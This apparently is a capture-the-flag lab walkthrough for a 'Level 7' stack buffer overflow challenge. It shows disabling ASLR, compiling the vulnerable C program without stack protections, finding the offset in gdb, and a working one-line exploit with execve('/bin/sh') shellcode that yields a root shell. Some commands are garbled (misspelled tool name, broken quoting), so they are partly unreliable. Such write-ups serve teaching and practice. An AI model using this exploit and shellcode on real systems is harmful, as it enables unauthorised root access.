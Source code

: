 Level 7
#
In this level we will exploit a buffer overflow: The buffer overflow is an attack that occurs when a program written in the C language exceeds the limits of a buffer, which can allow an attacker to overwrite memory and execute malicious code. To perform a buffer overflow on C code under Linux, you can use commands such as "gcc" to compile the source code into machine language, "gdb" to debug the program and identify potential vulnerabilities, and tools like "Valgrind" to detect memory leaks and memory management errors.
#
cd ..
cd 07_tropical_fruits
ls -al
cat level7.c
We will start by disabling some protections (the "aslr")

cat /proc/sys/kernel/randomize_va_space

"the variable is set to 2"

echo 0 > /proc/sys/kernel/randomize_va_space 
(to disable the ASLR protection)
Now we need to compile our program:

gcc -z execstack -fno-stack-protector -m32 level7.c -o level7~

-z execstack: makes the stack executable, allowing us to execute instruction sets in memory, which will allow us to execute our shell code in memory
-fno-stack-protector: this option allows us to bypass certain protections like canary, this cancels the protection on the "buffer" variable that we will exploit
-m32: for 32-bit
-o: for output

gdb: is a Linux debugger

gdb level7

nsf-pattern_create -l

nsf-pattern_offset -q 0Ab1

we execute these lines to determine the size of our offset, the location where we should introduce the shell code
run $(python -c "print 'A'* 312)

info frame

print $esp

./level7 $(python -c print 'A'*312 + '\x10\xd2\xff\xff'+ '\x90'*30 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' " )

we are now in root mode
and therefore access the file in which the solution is located
#




